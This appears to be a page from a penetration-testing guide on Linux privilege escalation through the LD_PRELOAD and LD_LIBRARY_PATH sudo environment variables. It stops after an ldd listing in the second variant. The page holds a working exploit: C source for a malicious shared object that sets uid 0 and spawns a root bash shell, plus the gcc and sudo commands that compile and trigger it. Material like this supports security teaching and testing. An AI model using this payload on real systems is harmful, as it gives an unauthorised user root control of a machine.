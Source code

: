 ### #2. LD\_PRELOAD/LD\_LIBRARY\_PATH

#### Requirements

For both cases, we need at least one binary that runs with sudo as the root user without asking for a password. We can check this with `sudo -l`:

![](../../../.gitbook/assets/sudo\_environment\_variables.png)

{% tabs %}
{% tab title="LD_PRELOAD" %}
Malicious payload:

{% code title="shell.c" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
{% endcode %}

Let’s compile it to generate a shared object with .so extension likewise .dll file in the Windows operating system:

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/shell.so /tmp/shell.c
# Execute with sudo:
sudo LD_PRELOAD=/tmp/shell.so <SUDO_BINARY_NO_PASSWD>
```
{% endtab %}

{% tab title="LD_LIBRARY_PATH" %}
This environment variable allows us to change the directory where the shared libraries are located. Therefore, our first step is to look for one of these in a binary that can be run with sudo and without a password:

```
sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/find
```

We check the shared libraries of that binary:

```bash
ldd /usr/bin/find
        linux-vdso.so.1 =>  (0x00007fffa71ff000)
        librt.so.1 => /lib/librt.so.1 (0x00007f24652e9000)
        libm.so.6 => /lib/libm.so.6 (0x00007f2465068000)
        libc.so.6 => /lib/libc.so.6 (0x00007f2464cfb000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f2464adf000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f24654f7000)
```

